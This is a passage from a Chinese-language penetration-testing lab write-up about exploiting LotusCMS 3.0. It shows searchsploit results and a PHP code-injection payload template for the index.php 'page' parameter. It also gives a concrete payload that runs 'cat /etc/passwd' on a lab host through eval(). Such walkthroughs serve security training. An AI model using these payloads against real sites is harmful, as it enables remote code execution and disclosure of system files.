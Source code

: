 ### 进一步漏洞利用：

接下来让我们查看一下LotusCMS是否存在漏洞

```
┌──(root㉿kali)-[~]
└─# searchsploit lotus CMS
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Lotus CMS Fraise 3.0 - Local File Inclusion / Remote Code Execution               | php/webapps/15964.py
Lotus Core CMS 1.0.1 - Local File Inclusion                                       | php/webapps/47985.txt
Lotus Core CMS 1.0.1 - Remote File Inclusion                                      | php/webapps/5866.txt
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)                     | php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                                         | php/webapps/16982.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

可以发现这个CMS相关的漏洞有文件包含和命令执行这里有一个msf的模块，我们这里尝试手动

通过谷歌搜索在[Packet Storm](https://packetstormsecurity.com/files/122161/LotusCMS-3.0-PHP-Code-Execution.html)上面发现一个python的漏洞利用脚本，将其下载下来。

我们从漏洞利用代码中了解到，这里的神奇之处在于将 PHP 代码注入到 index.php 文件的请求参数中。 格式如下：

```
http://target/index.php?page=index');${some_php_code_here()};#
```

我们尝试一下查看/etc/passwd

```
http://192.168.40.132/index.php?page=index');${system('cat /etc/passwd')};#
```

这里错误，文件中的第 26 行执行了一个 eval() 函数，但在执行过程中发生了语法错误,我们需要对payload进行url编码再进行尝试

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>
